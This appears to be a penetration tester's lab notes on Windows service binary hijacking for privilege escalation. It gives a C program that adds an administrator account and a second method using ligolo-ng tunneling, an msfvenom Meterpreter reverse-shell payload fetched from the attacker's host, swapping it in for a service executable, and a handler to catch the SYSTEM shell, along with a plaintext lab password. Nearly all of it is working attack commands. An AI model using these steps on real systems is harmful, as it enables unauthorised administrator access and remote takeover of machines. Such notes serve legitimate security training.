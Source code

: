 ## service binary hijack 
### method 1 (cannnot obtain root)
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

```
upload adduser.exe adduser.exe
```

```
move C:\DevelopmentExecutables\auditTracker.exe C:\Users\wario\auditTracker.exe
```

```
move .\adduser.exe C:\DevelopmentExecutables\auditTracker.exe
```

start service
```
sc.exe start auditTracker
```

check localgroup member
```
Get-LocalGroupMember administrators
```

### method 2
get system reverse shell using ligolo-ng tunneling and msfvenom payload

download ligolo-ng proxy and agnet
```
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_proxy_0.5.2_linux_amd64.tar.gz

tar -xzvf ligolo-ng_proxy_0.5.2_linux_amd64.tar.gz 
```

```
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_agent_0.5.2_windows_amd64.zip 

unzip ligolo-ng_agent_0.5.2_windows_amd64.zip 
```

set proxy
```
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

upload agent to WEB02 (windows)
```
iwr -UseBasicParsing http://192.168.45.167:8080/agent.exe -outfile agent.exe
```

connect to proxy (windows)
```
.\agent.exe -connect 192.168.45.167:11601 -ignore-cert
```

start session
```
session
```

add route (another terminal)
```
sudo ip route add 172.16.219.0/24 dev ligolo
```

ligolo-ng start
```
start
```


```
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:8080
```

create payload msfvenom
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.219.254 LPORT=3321 -f exe-service -o payload.exe
```

connect to client02 with evil-winrm
```
evil-winrm -i 172.16.219.83 -u wario -p "Mushroom\!" 
```

```
rm C:\Users\wario\auditTracker.exe
iwr -UseBasicParsing http://172.16.219.254:1235/payload.exe -outfile a.exe
```

```
move C:\DevelopmentExecutables\auditTracker.exe C:\Users\wario\auditTracker.exe
move .\a.exe C:\DevelopmentExecutables\auditTracker.exe
```

```
msfconsole -q -x 'use exploit/multi/handler;set LHOST 0.0.0.0;set LPORT 3321;set payload windows/x64/meterpreter/reverse_tcp;run'
```

ligolo-ng
```
listener_add --addr 0.0.0.0:3321 --to 0.0.0.0:3321
```

start service
```
sc.exe start auditTracker
```